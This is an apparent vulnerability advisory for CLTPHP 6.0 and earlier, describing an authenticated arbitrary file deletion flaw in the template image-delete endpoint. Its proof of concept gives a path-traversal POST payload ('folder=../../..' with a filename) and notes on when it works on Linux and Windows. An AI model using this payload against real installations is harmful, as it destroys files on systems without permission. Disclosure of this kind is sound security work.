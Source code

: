 # CLTPHP <= 6.0 Improper Input Validation 1
## Description
    The system client did not handle the parameters correctly, resulting in arbitrary file deletion.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

payload:

```
admin/template/imgDel 

post：folder=../../../../../../../../../&filename=tmp/123
```

The method of writing output has been executed, but because the images directory does not exist by default, the exploit will fail. If the images directory exists, it can be exploited normally (linux platform).
If it is in windows is not affected by the images directory, you can use the vulnerability normally

![904e02166c4d170896c1e8af7628c77](img/904e02166c4d170896c1e8af7628c77.jpg)

![image-20230105162650735](img/63b7c3d0a2ce6.png)